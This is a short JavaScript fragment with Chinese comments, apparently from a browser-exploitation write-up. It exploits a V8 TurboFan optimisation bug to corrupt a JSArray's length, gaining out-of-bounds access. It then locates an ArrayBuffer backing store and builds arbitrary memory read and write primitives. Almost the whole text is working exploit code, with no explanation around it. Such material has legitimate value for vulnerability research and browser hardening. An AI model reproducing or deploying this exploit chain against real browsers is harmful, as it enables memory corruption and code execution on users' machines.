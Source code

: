 /******* -- 修改JSArray length 的操作 -- *******/
var oob_arr = [];
function opt_me(x)
`{`
    oob_arr = [1.0, 1.1, 1.2, 1.3, 1.4, 1.5, 1.6];
    let t = (x == 1 ? 9007199254740992 : 9007199254740989);
    t = t + 1 + 1;
    t -= 9007199254740990;
    t *= 2;
    t += 2;
    oob_arr[t] = 3.4766779039175022e-310; // 0x4000.f2smi
`}`
// 试着触发 turboFan，从而修改 JSArray 的 length
for(let i = 0; i &lt; 0x10000; i++)
    opt_me(1);
// 简单 checker
if(oob_arr[1023] == undefined)
    throw "OOB Fail!";
else
    log("[+] oob_arr.length == " + oob_arr.length);

/******* -- 任意地址读写原语 -- *******/

var array_buffer;
array_buffer = new ArrayBuffer(0x233);
data_view = new DataView(array_buffer);
backing_store_offset = -1;

// 确定backing_store_offset
for(let i = 0; i &lt; 0x4000; i++)
`{`   
    // smi(0x400) == 0x0000023300000000
    if(Float64ToInt64(oob_arr[i]) == 0x0000023300000000)
    `{`
        backing_store_offset = i + 1;
        break;
    `}`
`}`
// 简单确认一下是否成功找到 backing_store
if(backing_store_offset == -1)
    throw "backing_store is not found!";
else
    log("[+] find backing_store offset: " + backing_store_offset);

function read_8bytes(addr)
`{`
    oob_arr[backing_store_offset] = Int64ToFloat64(addr);
    return data_view.getBigInt64(0, true);
`}`
function write_8bytes(addr, data)
`{`
    oob_arr[backing_store_offset] = Int64ToFloat64(addr);
    data_view.setBigInt64(0, BigInt(data), true);
`}`
